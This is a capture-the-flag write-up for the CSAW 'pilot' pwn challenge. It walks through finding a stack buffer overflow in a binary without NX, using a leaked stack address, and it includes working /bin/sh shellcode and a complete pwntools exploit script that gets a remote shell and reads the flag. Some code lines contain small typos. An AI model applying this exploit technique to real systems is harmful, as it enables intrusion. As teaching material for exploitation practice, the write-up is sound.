 # Description
The pilot challenge was part of the pwn category, there was a binary available to download and the only
information we got was this:
```
Can I take your order?

nc pwn.chal.csaw.io 8464
```

# Running the binary
First of all we will run the binary to check if there is some sort for information that can help us to
discover the path to follow, after running the binary we can see a series of outputs and one line asking
for an input from the user, the location output seems interesting since it looks like it's some sort of
memory leak, we entered a random letter on the command input and nothing happened.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffe61dfd4a0
 [*]Command:a
 [*]There are no commands....
 [*]Mission Failed....
```
We executed the binary again but this time we entered more data in the command input and this time we got
a segmentation fault, we need to find out what is causing this and if it's exploitable.
```
 ./pilot.bin 
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffef4406230
 [*]Command:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Segmentation fault
```
# Binary Analysis
First of all lets check what kind of protection this binary has and other stuff in radare2 ...

```
[0x004008b0]> iI
arch     x86
binsz    8616
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     cxx
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   false
relro    partial
rpath    NONE
static   false
stripped true
subsys   linux
va       true
```

We look if some  security features like nx, va and relro are enabled since that will limit how we can
exploit this binary, we can also analyze the binary to identify functions, instructions and other useful
things with radare.

```
[0x004008b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
```

We can get the list of functions with the command **afl**:
```
[0x004008b0]> afl
0x004007c8    3 26           sub.__gmon_start___248_7c8
0x00400800    2 16   -> 32   sym.imp.setvbuf
0x00400810    2 16   -> 48   sub._ZNSt8ios_base4InitC1Ev_32_810
0x00400820    2 16   -> 48   sym.imp.read
0x00400830    2 16   -> 48   sym.imp.__libc_start_main
0x00400840    2 16   -> 48   sym.imp.__cxa_atexit
0x00400850    2 16   -> 48   sub._ZNSt8ios_base4InitD1Ev_64_850
0x00400860    2 16   -> 48   sub._ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc_72_860
0x00400870    2 16   -> 48   sub._ZNSolsEPKv_80_870
0x00400880    2 16   -> 48   sub._ZNSolsEPFRSoS_E_88_880
0x00400890    2 16   -> 48   sub._ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6__96_890
0x004008a0    1 16           sub.__gmon_start___248_8a0
0x004008b0    1 41           entry0
0x004008e0    4 50   -> 41   fcn.004008e0
0x004009a6    4 400          main
0x00400b36    4 62           sub.std::ios_base::Init.Init___b3
```
The main function can be one of our main focus points, we can go to the main function with the command
**s main** and disassemble it with the command **pdf**, now it's time to find our bug and possible 
vulnerability.

```
[0x004008b0]> s main 
[0x004009a6]> pdf
┌ (fcn) main 400
│   main ();
│           ; var int local_20h @ rbp-0x20
│              ; DATA XREF from 0x004008cd (entry0)
│           0x004009a6      55             push rbp
│           0x004009a7      4889e5         mov rbp, rsp
```
Since we know that the program crashes when we introduce a big string after the command output we will
try to find that in the assembly code, we can verify that the read function is used to capture our
input.
![radare2](imgs/r2-read-add.png)

# Debugging the binary
With what we have at the moment we can set a breakpoint after the read function has ended to take
a quick look at the stack and follow the execution code and verify if we can prevent the segmentation fault
in order to execute our own code to take over the binary.

We selected the address 0x400ae5 as a good location to set a breakpoint, since this is right before the
read function returns.
```
 0x00400ae0      e83bfdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
 0x00400ae5      4883f804       cmp rax, 
```
First of all we need to know what the strange number in the Location output is all about, opening the file
in GDB with ASLR off we get the following location **0x7fffffffe340**.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7fffffffe340
```

Inspecting our registers it seems this is where the RSP register is pointing to, this is starting to look
like a standard BOF exploit, at address 0x00400ae0 the function read (fd, void \*buf, size_t) is called with
size_t of 0x40 that means 64 chars and if we look carefully RBP sits at address 0x7fffffffe360 so in theory
we can overwrite RBP and RET address in the stack since there is just 32 bytes of difference and we have a
buffer that can hold up to 64 chars.

![bp-0x400ae5](imgs/bp-0x400ae5.png)

Since there is no NX protection to prevent the execution of code in the stack we can inject our shellcode
directly to the stack and modify the ret address in order to jump there, since we just want to spawn a shell
in the remote server we will use the following code in ASM to generate our shellcode that is just sysexecv("/bin/sh",0,0):

``asm
bits 64

push 59
pop rax
cdq
push rdx
pop rsi
mov rcx, '/bin//sh'
push rdx
push rcx
push rsp
pop rdi
syscal
```

We can assemble the instructions with nasm:
 nasm -fbin shellcode.nasm -o sc.bin

And generate a python friendly shellcode with hexdump:
 hexdump -v -e '"\\x" 1/1 "%02X" ' sc.bin
 \x6A\x3B\x58\x99\x52\x5E\x48\xB9\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x52\x51\x54\x5F\x0F\x05

Since we need to overwrite the return address at 0x7fffffffe368 we need an offset of 40 bytes, our shellcode
length is 22 bytes we need 18 bytes to complete our offset we will just nop instructions \x90 to fill the
gap.

We will use [pwntools](https://docs.pwntools.com/en/stable/) since it will help us to reduce some lines of
code and provide some cool functionalities, this is our final script that will deliver our exploit.

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8464)
buf = ''
buf += '\x6A\x3B\x58\x99\x52\x5E\x48\xB9'
buf += '\x2F\x62\x69\x6E\x2F\x2F\x73\x68'
buf += '\x52\x51\x54\x5F\x0F\x05'
buf += '\x90' * 18
print "[+] Getting memory leak\n"
r.recvline_contains("Good Luck Pilot!")
memleak = r.recvline()
buf += p64(int(memleak[12:26:],16))
print "[+] Sending payload\n"
r.sendline(buf)
print "[+] Entering interactive mode\n"
r.interactive()
```
# Getting the flag
```
foobar@quant:~/h/c/csaw$ python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Getting memory leak

[+] Sending payload

[+] Entering interactive mode

[*] Switching to interactive mode
[*]Command:$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```
